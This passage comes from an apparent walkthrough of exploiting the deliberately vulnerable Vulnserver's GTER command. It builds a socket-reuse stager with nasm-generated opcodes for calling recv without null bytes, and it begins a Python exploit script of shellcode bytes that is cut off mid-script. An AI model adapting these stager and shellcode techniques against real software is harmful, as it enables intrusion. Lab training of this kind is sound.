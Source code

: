 We can see that the ```JMP.&WS2_32.recv``` arguments are aligned perfectly as we expected

Now after framing these arguments, we need to call the ```JMP.&WS2_32.recv``` function to use this arguments

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-2.png">
</div>

Our first ```CALL <JMP.&WS2_32.recv>``` is at ```0x401953```, but the function ```<JMP.&WS2_32.recv>``` is located at ```0x40252c```

We need to call this address to load the arguments to reuse the socket to receive data again

Generating opcodes to call this function,

```c
// leads to null bytes
nasm > mov edx,0x40252c
00000000  BA2C254000        mov edx,0x40252c
// adding padding value 
nasm > mov edx,0x40252caa
00000000  BAAA2C2540        mov edx,0x40252caa
// performing left shift operation to remove null bytes (1 byte = 8 bits)
// 0x40252caa ---> Shift 4 bits right = 0x040252ca
// 0x040252ca ---> Shift 4 bits right = 0x0040252c
nasm > shr edx,8
00000000  C1EA08            shr edx,byte 0x8
nasm > call edx
00000000  FFD2              call edx
```

Adding this to our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat socket-reuse-stager.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
```